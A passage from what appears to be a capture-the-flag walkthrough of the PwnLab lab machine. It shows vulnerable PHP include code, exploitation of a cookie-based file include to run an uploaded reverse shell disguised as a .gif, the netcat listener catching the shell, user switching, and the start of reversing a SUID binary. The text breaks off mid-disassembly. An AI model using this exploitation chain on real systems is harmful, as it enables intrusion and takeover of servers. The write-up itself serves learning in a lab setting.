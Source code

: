 ```
	{
		include($_GET['page'].".php");
	}
	else
	{
		echo "Use this server to upload and share image files inside the intranet";
	}
?>
</center>
</body>
</html>
```

Bingo. The `include("lang/".$_COOKIE['lang']);` can be used to execute our PHP script by providing the file path to our `php-reverse-shell.gif` in the cookie under the `lang` key. Let's start the nc listener and reupload our script as `.gif`. In HTML response we see the following tag: `<img src="upload/8513fa03f53699c754ad7f940efa8efd.gif">` and set the cookie in the browser to `lang=../upload/8513fa03f53699c754ad7f940efa8efd.gif`. Another request to the web page and the terminal pops:

```
# nc -nlvp 443
listening on [any] 443 ...
connect to [192.168.56.103] from (UNKNOWN) [192.168.56.114] 45621
Linux pwnlab 3.16.0-4-686-pae #1 SMP Debian 3.16.7-ckt20-1+deb8u4 (2016-02-29) i686 GNU/Linux
 20:00:07 up  2:36,  0 users,  load average: 0.00, 0.01, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
```

We got limited www-data shell. Next step is a quick and dirty interactive reverse shell via python, afterwards tried `su kent` with a known password which worked. At this point I spent half an hour searching how to escalate privileges and saw nothing useful. Out of ideas and hoping that there will be something in other user's home directories, I tried `mike` as user with his password which didn't work. Next I tried `kane` as user with a known password and `kane` worked. I noticed this in the `/home/kane` dir:

```
$ ls -al /home/kane
ls -al /home/kane
total 96
drwxr-x--- 2 kane kane  4096 Jun 26 19:24 .
drwxr-xr-x 6 root root  4096 Mar 17  2016 ..
-rw-r--r-- 1 kane kane   220 Mar 17  2016 .bash_logout
-rw-r--r-- 1 kane kane  3515 Mar 17  2016 .bashrc
-rwsr-sr-x 1 mike mike  5148 Mar 17  2016 msgmike
-rw-r--r-- 1 kane kane   675 Mar 17  2016 .profile
```

SUID binary msgmike. Pulled the binary from the server and reversed it:

```
# r2 -AAAA msgmike
[x] Analyze all flags starting with sym. and entry0 (aa)
[x] Analyze function calls (aac)
[x] Analyze len bytes of instructions for references (aar)
[x] Constructing a function name for fcn.* and sym.func.* functions (aan)
[x] Enable constraint types analysis for variables
[0x08048360]> pdf @ sym.main
            ;-- main:
/ (fcn) sym.main 83
|   sym.main (int argc, char **argv, char **envp);
|           ; var int local_4h @ ebp-0x4
|           ; arg int arg_4h @ esp+0x4
|           ; DATA XREF from entry0 (0x8048377)
|           0x0804845b      8d4c2404       lea ecx, dword [arg_4h]     ; 4
|           0x0804845f      83e4f0         and esp, 0xfffffff0
|           0x08048462      ff71fc         push dword [ecx - 4]
|           0x08048465      55             push ebp
```
